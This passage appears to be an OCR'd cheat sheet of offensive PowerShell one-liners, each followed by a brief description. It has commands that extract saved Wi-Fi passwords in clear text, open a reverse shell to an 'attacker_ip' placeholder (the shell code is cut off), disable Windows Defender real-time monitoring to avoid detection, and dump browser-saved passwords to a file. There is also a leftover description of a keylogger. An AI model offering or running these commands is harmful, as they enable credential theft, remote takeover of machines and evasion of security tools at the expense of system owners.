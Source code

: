 Captures and logs keystrokes to a file, which can be used for gathering sensitive information like passwords.

---

## **Extracting Wi-Fi Profiles and Passwords**



`netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_ -replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }`

Extracts Wi-Fi network profiles and their associated passwords stored on the system.

---

## **Monitoring File System Changes**



`$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\'; $watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent $watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }`

Sets up a monitor on the file system to track and log any changes, such as file creation, which can be useful for detecting suspicious activity.

---

## **Creating Reverse Shell**



`$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535...`

Establishes a reverse shell connection to a specified attacker-controlled machine, allowing remote command execution.

---

## **Disabling Windows Defender**



`Set-MpPreference -DisableRealtimeMonitoring $true`

Disables Windows Defender's real-time monitoring feature, which can help in evading detection.

---

## **Extracting Browser Saved Passwords**



`Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt`
